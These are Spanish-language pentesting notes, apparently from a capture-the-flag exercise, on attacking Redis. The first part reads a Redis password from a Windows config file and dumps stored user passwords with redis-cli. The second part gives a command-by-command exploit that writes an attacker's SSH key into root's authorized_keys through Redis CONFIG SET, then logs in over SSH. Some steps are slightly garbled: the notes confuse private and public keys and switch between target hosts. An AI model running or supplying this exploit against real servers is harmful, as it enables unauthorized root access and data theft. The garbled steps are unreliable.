 # Extraer "requiredpass" para obtener contraseña de usuario.

En 'C:\Program Files\Redis\redis.windows.conf' podemos encontrar un campo 'requiredpass: kidvscat_yes_kidvscat'
Con la línea de comandos redis-cli:
redis-cli -a kidvscat_yes_kidvscat keys *		--> Obtendremos 'pk:urn:user:xxxxxx'
redis-cli -a kidvscat_yes_kidvscat get pk:urn:user:xxxxx 		--> Obtendremos 'EncryptedPassword: contraseña'


	
===========================================================================

# Unauthorized Access Vulnerability
Redis es una herramienta de estructura de datos de código abierto ampliamente popular que se puede utilizar como una base de datos distribuida en memoria, un intermediario de mensajes o una caché. 
Dado que está diseñado para ser accedido dentro de entornos confiables, no debe exponerse en Internet. Sin embargo, algunos Redis están vinculados a la interfaz pública e incluso no tienen protección de autenticación por contraseña.
Bajo ciertas condiciones, si Redis se ejecuta con la cuenta raíz (o ni siquiera), los atacantes pueden escribir un archivo de clave pública SSH en la cuenta raíz, iniciando sesión directamente en el servidor de la víctima a través de SSH. Esto puede permitir a los piratas informáticos obtener privilegios de servidor, eliminar o robar datos, o incluso conducir a una extorsión de cifrado, poniendo en grave peligro los servicios comerciales normales.

El flujo simplificado de este exploit es:

* Generaremos una clave privada y una clave pública para SSH en la máquina de destino más adelante. Ejecute el siguiente comando para generar claves SSH y deje la frase de contraseña vacía.
		`ssh-keygen -t rsa`
* A continuación, ingrese a la carpeta .ssh. Si es un usuario root, ingrese /.ssh, de lo contrario ~ / .ssh, luego copie la clave privada en temp.txt.
		`(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n")> temp.txt`
		
		![](https://miro.medium.com/max/829/0*kj5v1UOnDs4_1B-4.png)
		
* Vamos a utilizar redis-cli, la interfaz de línea de comandos de Redis, para enviar comandos a Redis y leer las respuestas enviadas por el servidor directamente en la terminal.
	Ejecute los siguientes comandos en la carpeta redis-3.2.11 / src. (O dependiendo de dónde estemos, siempre podemos especificar la ruta a los archivos que usamos)
		`cat /.ssh/temp.txt | redis-cli -h 203.137.255.255 -x set s-key`
		
* Nos conectamos al servidor Redis:
		`redis-cli -h 10.10.10.237`
		
`CONFIG GET dir` 			# get your redis directory   
	\# In the output of above command "/home/xxxx/redis-3.2.11/src" is the directory where redis server is installed. 
`CONFIG SET dir /home/xxxx/.ssh`			 # set the backup location to the .ssh folder (or) 
`CONFIG SET dir /root/.ssh` 
`CONFIG SET dbfilename authorized\_keys` # lastly we back our data containing our "s-key" key-value pair up in the .ssh folder save

\# command: private key username@server IP  
`ssh -i id\_rsa username@203.137.255.255`
